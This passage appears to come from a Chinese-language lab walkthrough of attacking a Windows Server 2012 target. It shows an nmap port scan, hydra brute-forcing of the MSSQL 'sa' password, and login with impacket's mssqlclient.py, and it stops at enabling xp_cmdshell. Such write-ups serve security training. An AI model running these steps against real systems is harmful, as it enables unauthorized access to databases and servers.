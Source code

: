 不演示了，之前的项目操作过

## 提取

土豆家族提权，也不演示了

# 第二台server2012

## 前置说明

此时本应该在之前主机 12server-web1 的 cs/msf 的权限上再开代理来做的，但由于靶机 server2012 出网且有两张网卡，于是我们就直接用 kali 去攻击了，接下来的操作就与 12server-web1 无关了

## 信息搜集

1、端口扫描

```
nmap -sT -Pn 192.168.0.104 -p 445,80,135,8080,53,3306,1433,5900 --open
```

```
Host is up (0.0059s latency).
Not shown: 5 closed tcp ports (conn-refused)
PORT     STATE SERVICE
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
1433/tcp open  ms-sql-s
```

发现 1433 的 mssql 端口

## 测试mssql

1、爆破密码

```bash
hydra -l sa -P pass.txt 192.168.0.104 mssql -vV -f
```

```
[1433][mssql] host: 192.168.0.104   login: sa   password: admin123
```

账号密码为  sa:admin123

2、python著名的【淫趴渴】包的利用

`mssqlclient.py`

```bash
python3 mssqlclient.py sa@192.168.0.104
```

3、开启 xp_cmdshell
